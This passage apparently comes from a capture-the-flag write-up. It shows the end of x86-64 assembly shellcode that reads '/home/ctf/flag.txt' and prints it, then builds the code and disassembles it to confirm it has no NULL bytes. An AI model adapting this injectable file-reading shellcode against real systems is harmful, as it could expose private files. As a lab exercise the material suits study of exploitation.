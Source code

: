   <span class="Comment">; File handle to write to = stdout = 1</span>
  <span class="Identifier">xor</span> <span class="Identifier">rdi</span>, <span class="Identifier">rdi</span>
  <span class="Identifier">inc</span> <span class="Identifier">rdi</span>

  <span class="Comment">; (rsi is already the buffer)</span>

  <span class="Comment">; rdx is the count again</span>
  <span class="Identifier">xor</span> <span class="Identifier">rdx</span>, <span class="Identifier">rdx</span>
  <span class="Identifier">mov</span> <span class="Identifier">dl</span>, <span class="Number">30</span>

  <span class="Comment">; Perform the sys_write syscall, writing the data to stdout</span>
  <span class="Identifier">syscall</span>

<span class="Comment">;;; EXIT</span>
  <span class="Comment">; Syscall 60 = exit</span>
  <span class="Identifier">xor</span> <span class="Identifier">rax</span>, <span class="Identifier">rax</span>
  <span class="Identifier">mov</span> <span class="Identifier">al</span>, <span class="Number">60</span>

  <span class="Comment">; Exit with code 0</span>
  <span class="Identifier">xor</span> <span class="Identifier">rdi</span>, <span class="Identifier">rdi</span>

  <span class="Comment">; Perform an exit</span>
  <span class="Identifier">syscall</span>

<span class="Identifier">getfilename_bottom</span>:
  <span class="Identifier">call</span> <span class="Identifier">getfilename_top</span>

  <span class="Identifier">db</span> "/<span class="Identifier">home</span>/<span class="Identifier">ctf</span>/<span class="Identifier">flag</span><span class="Statement">.txt</span>" <span class="Comment">; The literal flag, fortunately the buffer itself is null-filled so we don't need to null terminate</span>
</pre>
Let's build, then verify there are no NULL bytes:
<pre>$ nasm -o solution2.bin solution2./asm
$ ndisasm -b64 solution2.bin
00000000  4831C0            xor rax,rax
00000003  B002              mov al,0x2
00000005  EB34              jmp short 0x3b
00000007  5F                pop rdi
00000008  4831F6            xor rsi,rsi
0000000B  4831D2            xor rdx,rdx
0000000E  0F05              syscall
00000010  57                push rdi
00000011  50                push rax
00000012  4831C0            xor rax,rax
00000015  5F                pop rdi
00000016  5E                pop rsi
00000017  4831D2            xor rdx,rdx
0000001A  B21E              mov dl,0x1e
0000001C  0F05              syscall
0000001E  4831C0            xor rax,rax
00000021  48FFC0            inc rax
00000024  4831FF            xor rdi,rdi
00000027  48FFC7            inc rdi
0000002A  4831D2            xor rdx,rdx
0000002D  B21E              mov dl,0x1e
0000002F  0F05              syscall
00000031  4831C0            xor rax,rax
00000034  B03C              mov al,0x3c
00000036  4831FF            xor rdi,rdi
00000039  0F05              syscall